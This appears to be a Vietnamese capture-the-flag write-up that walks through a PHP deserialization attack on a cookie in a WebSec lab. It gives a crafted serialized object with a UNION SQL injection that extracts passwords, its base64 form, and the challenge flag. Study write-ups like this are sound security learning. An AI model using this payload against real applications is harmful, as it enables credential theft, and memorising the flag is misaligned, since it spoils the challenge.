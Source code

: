 # LevelFour - Cereal is nation
>PHP Object Injection_Sql cookie (deserialization php)
>

## Cách khai thác 

Để khai thác được lỗ hổng PHP deserialization cần có 2 điều kiện :
  + Class phải sử dụng 1 trong 3 hàm **__wakeup(), __destruct(), __toString,__construct()**  để xử lý dữ liệu người dùng
  + Người dùng có thể chèn dữ liệu độc hại vào hàm unserialize() => **$_GET , $_POST , $_COOKIE , $_SESSION** 

Trong đó :

**__wakeup ( )**     : được thực thi khi một object được gọi dậy

**__destruct ( )**   : một trình hủy được gọi khi đối tượng bị hủy hoặc tập lệnh bị dừng hoặc thoát, PHP tự động gọi hàm này ở cuối tập lệnh (nếu được thiết lập)

**__construct ( )**  : cho phép người dùng khởi tạo các thuộc tính của một đối tượng khi tạo đối tượng, PHP sẽ tự động gọi hàm này khi tạo một đối tượng từ một lớp(class) 

## Bắt đầu khai thác 
Đề bài cho ta đầu vào là id và 2 source code :

### Cookie 

Khi nhập `id = 1` ta nhận được cookie 

![des](https://github.com/tinasahara1/Study/blob/e13f570adb7561eb9ef2c591d6c64dbaf6276c52/WebSec/image/des_cookie.PNG)

Decode Base64 `YToxOntzOjI6ImlwIjtzOjE0OiIxNzEuMjUwLjE2Mi45MCI7fQ==` ==> `a:1:{s:2:"ip";s:14:"171.250.162.90";}`

### Source code 1 : 

![des](https://github.com/tinasahara1/Study/blob/3e044e4600b730ed821cf47d1012566e7c143658/WebSec/image/des1.png)

=> Ta thấy được dấu hiệu của lỗ hổng và biến của cookie `$_COOKIE['leet_hax0r']` => Thão đk2
```php
 $sess_data = unserialize (base64_decode ($_COOKIE['leet_hax0r']));
```

### Source code 2 : 

![des](https://github.com/tinasahara1/Study/blob/3e044e4600b730ed821cf47d1012566e7c143658/WebSec/image/des2.PNG)

=> Ta cũng thấy được hàm `__construct() và __destruct() ` được thiết lập => Thão đk1

Cả 2 điều kiện đều thõa mãn => Phân tích source2 và tạo payload thuii 
Chúng ta cần tạo 1 object SQL trong unserialize và truy vấn đến biến $query => Tạo SQLi dựa vào lệnh sql cho trước `$sql->query = 'SELECT username FROM users WHERE id=';` 
```sql
O:3:"SQL":1:{s:5:"query";s:81:"select username from users where id=1 union select password from users where id=1";}
```
Sau đó encode base64 nó ra 
`TzozOiJTUUwiOjE6e3M6NToicXVlcnkiO3M6ODE6InNlbGVjdCB1c2VybmFtZSBmcm9tIHVzZXJzIHdoZXJlIGlkPTEgdW5pb24gc2VsZWN0IHBhc3N3b3JkIGZyb20gdXNlcnMgd2hlcmUgaWQ9MSI7fQ==`

![des](https://github.com/tinasahara1/Study/blob/3e044e4600b730ed821cf47d1012566e7c143658/WebSec/image/des_flag.PNG)
Flag: `WEBSEC{9abd8e8247cbe62641ff662e8fbb662769c08500}`

